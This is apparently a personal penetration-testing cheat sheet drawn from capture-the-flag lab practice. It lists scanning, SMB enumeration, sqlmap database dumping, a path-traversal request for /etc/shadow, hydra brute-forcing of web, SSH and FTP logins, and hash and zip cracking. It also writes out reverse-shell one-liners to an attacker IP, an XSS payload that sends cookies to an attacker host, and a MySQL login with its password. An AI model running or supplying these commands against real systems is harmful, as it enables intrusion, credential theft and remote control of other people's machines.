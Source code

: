 # Cheat Sheet

## Enumeration

sudo masscan -e tun0 -p1-65535,U:1-65535 10.10.1.109 --rate=1000 (quick open port scan)

nmap -sV -v -Pn -n -p8000,9300,22,5601,1111,9200 10.10.1.109 (then scan the ports found with masscan)

nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.119.138 (enum samba shares)

nmap -sV -p- 10.10.10.10 (service scan)

nmap -A -T4 --script vuln -p- 10.10.10.10 (full scan)

nmap -sV -vv --script vuln 10.10.10.10 (vuln scan)
  
nmap -O 10.10.10.10 (operating system scan) 

nikto -host 10.10.200.161 (web scan)

enum4linux -a 10.10.26.102 | tee enum4linuxOutput.log

## Linux

cat /etc/passwd (get list of users)

sudo cat /etc/shadow (hash of password)

find / -type f -perm -o+w 2>/dev/null (find files with write permissions)

## msfconsole

db_nmap -sV BOX-IP

use shell_to_meterpreter

set payload payload/linux/x86/meterpreter/reverse_tcp

run post/multi/recon/local_exploit_suggester

load kiwi (creds_all)

***spawn shell from meterpreter***

shell

script -qc /bin/bash /dev/null 

## FTP

scp linpeas.sh jan@10.10.122.69:/dev/shm

## mysql 

mysql -h 10.10.28.115 -u(root) -p(ff912ABD*)

show databases;

use data;

select * from USERS;

## sql injection

sqlmap -u 10.10.115.80/register.php --data "log_email=test&log_password=test&login_button=Login" --method POST -p "log_email,log_password" --level=3 --batch

sqlmap -u 10.10.87.14/register.php --data "log_email=test&log_password=test&login_button=Login" --method POST -p "log_email,log_password" --level=3 --dbms=mysql 5.02 --batch -D social --columns -T users --dump

## LFI

http://10.10.58.44/get-file/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fshadow

## mountd (mount NFS drive)

/sbin/showmount -e 10.10.10.10 

sudo mkdir /mnt/thm

mount 10.10.10.10:/opt/files /mnt/thm

sudo umount -f -l thm

## gobuster

gobuster dir -u http://ip:port -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 30

## crack passwords

hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.212.195 -t 4 http-form-post "/login:username=^USER^&password=^PASS^:F=incorrect" (web login portal password)

hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.212.195 -t 4 ssh

hydra -l sam -P /usr/share/wordlists/rockyou.txt 10.10.120.174 -t 4 -s 4567 ssh (ssh port 4567)

hydra -l Queen -P /usr/share/wordlists/rockyou.txt 10.10.212.195 -t 4 ftp

fcrackzip -b --method 2 -D -p /usr/share/wordlists/rockyou.txt -v ./christmaslists.zip (zip password)

hashcat -m 1800 hash /usr/share/wordlists/rockyou.txt --force (crack hash)

hashcat -m 0 hash /usr/share/wordlists/rockyou.txt --force (crack hash md5)

| hashid        | hashcat |
|---------------|---------|
| SHA-512 Crypt | 1800    |
|               |         |
|               |         |

## Encryption

pg -d note1.txt.gpg (decrypt gpg)

steghide extract -sf ./TryHackMe.jpg (stenography)

stegcracker aa.jpg

exiftool ./tryHackMe.jpg

/home/kali/.local/bin/stegcracker cute-alien.jpg /usr/share/wordlists/rockyou.txt

crack zip password

```
/usr/sbin/zip2john 8702.zip > output
sudo john output
```

binwalk cutie.png

binwalk cutie.png -e (extract hidden files)

openssl rsautl -decrypt -inkey private.key -in note2_encrypted.txt -out file.txt (asymmetric decryption using private key) 

## cmd to start reverse shell 

bash -i >& /dev/tcp/10.4.9.144/1234 0>&1

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.4.9.144 1234 >/tmp/f

## listen for reverse shell

netcat -lvnp 1234 (or nc)

upgrade shell
```
python -c "import pty; pty.spawn('/bin/bash')"

control+z

stty raw -echo

fg

press enter a few times

export TERM=xterm
```
## XSS 

<script> new Image().src = "http://myIP:1234/stolencookie.php?cookie="+document.cookie;</script> (payload)

ncat -lkvnp 1234 (listen to payload)

# privilege escalation using SUID

find / -user root -perm -4000 2>> /dev/null (find SUID files)

## ssh with private key

/usr/share/john/ssh2john.py key > forjohn

/usr/sbin/john forjohn --wordlist=/usr/share/wordlists/rockyou.txt

chmod 600 key

ssh -i key kay@10.10.122.69

## upload files to box

host on own computer
ls to directory

```
sudo python -m SimpleHTTPServer
```

get on box

```
wget http://10.4.9.144:8000/linpeas.sh
```
## download files from box

on own machine
```
scp james@10.10.165.113:Alien_autospy.jpg /home/kali/Downloads
```

## decode/encode

https://gchq.github.io/CyberChef/
